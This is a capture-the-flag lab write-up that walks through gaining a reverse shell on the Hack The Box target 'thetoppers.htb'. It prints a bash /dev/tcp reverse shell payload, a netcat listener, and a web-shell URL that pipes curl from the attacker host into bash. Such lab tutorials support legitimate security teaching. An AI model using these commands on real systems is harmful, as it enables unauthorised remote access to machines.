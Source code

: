 Before we do anything, we check our attacker machine's `tun0` IP address by executing either `ifconfig` (legacy) or the `ip a` command:

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.32]─[scrage@htb-we0ubgl4p1]─[~]
	└──╼ [★]$ ifconfig
	[*** SNIP ***]
	
	tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
	        inet 10.10.14.32  netmask 255.255.254.0  destination 10.10.14.32
	        inet6 fe80::dfd0:b325:cc9d:440c  prefixlen 64  scopeid 0x20<link>
	        inet6 dead:beef:2::101e  prefixlen 64  scopeid 0x0<global>
	        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
	        RX packets 40373  bytes 44041665 (42.0 MiB)
	        RX errors 0  dropped 0  overruns 0  frame 0
	        TX packets 28072  bytes 2497419 (2.3 MiB)
	        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

Our IP address is `10.10.14.32` in this case.

**I. First,** Let's get a reverse shell by creating a new file `shell.sh` containing the following bash reverse shell payload which will connect back to our local machine on port `1337`:

```
#!/bin/bash
bash -i >& /dev/tcp/<ATTACKER'S IP ADDRESS>/1337 0>&1
```

**II. Second,** we will start a `ncat` listener on our local port `1337` using the following command:

`nc -nvlp 1337`

Netcat command flags:
- `l: to listen`
- `n: no DNS resolution, IP addresses only`
- `v: verbose`
- `p: port number, be specified right after the flag (best to keep it under 1000 to avoid firewall detection)`

**III. Third,** we will start a web server on our local machine on **port 8000** and host this bash file.
==It is crucial to note here== that this command for hosting the web server must be run from the directory which contains the reverse shell file. So, we must first traverse to the appropriate directory and then run the following command:

`python3 -m http.server 8000`

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.32]─[scrage@htb-we0ubgl4p1]─[~/reverse_shell]
	└──╼ [★]$ python3 -m http.server 8000
	Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

**IV. Then,** we can use the `curl` utility to fetch the bash reverse shell file from our local host and then pipe it to `bash` in order to execute it. Thus, let us visit the following URL containing the payload in the browser:

`http://thetoppers.htb/shell.php?cmd=curl%20<ATTACKER'S_IP_ADDRESS>:8000/shell.sh|bash`

And after visiting the `/shell.php` page on the target website again, having the curl command passed as argument to execute, we then receive a reverse shell on the corresponding listening port on our machine:
